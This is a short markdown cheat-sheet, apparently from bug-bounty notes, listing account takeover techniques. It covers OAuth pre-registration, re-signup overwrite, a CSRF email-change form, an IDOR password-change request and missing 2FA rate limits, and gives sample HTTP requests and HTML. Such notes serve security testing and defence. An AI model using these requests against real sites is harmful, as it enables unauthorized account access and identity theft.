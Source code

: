 # Account Takeover

## Introduction
Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

## How to exploit
1. Using OAuth Misconfiguration
   - Victim has a account in evil.com
   - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   - Attacker changed his/her email to victim email.
   - When the victim try to create an account on evil.com, it says the email already exists.

2. Try re-sign up using same email
   ```
   POST /newaccount
   [...]
   email=victim@mail.com&password=1234
   ```
   After sign up using victim email, try signup again but using different password
   ```
   POST /newaccount
   [...]
   email=victim@mail.com&password=hacked
   ```

3. via CSRF
   - Create an account as an attacker and fill all the form, check your info in the Account Detail.
   - Change the email and capture the request, then created a CSRF Exploit.
   - The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

   ```html
   <html>
   <body>
      <form action="https://evil.com/user/change-email" method="POST">
         <input type="hidden" value="victim@gmail.com"/>
         <input type="submit" value="Submit Request">
      </form>
   </body>
   </html>
   ```

4. Chaining with IDOR, for example
   ```
   POST /changepassword.php
   Host: site.com
   [...]
   userid=500&password=heked123
   ```
   500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID

5. No Rate Limit on 2FA

References:
- [Pre-Account Takeover using OAuth Misconfiguration](https://vijetareigns.medium.com/pre-account-takeover-using-oauth-misconfiguration-ebd32b80f3d3)
- [Account Takeover via CSRF](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)
- [How re-signing up for an account lead to account takeover](https://zseano.medium.com/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f)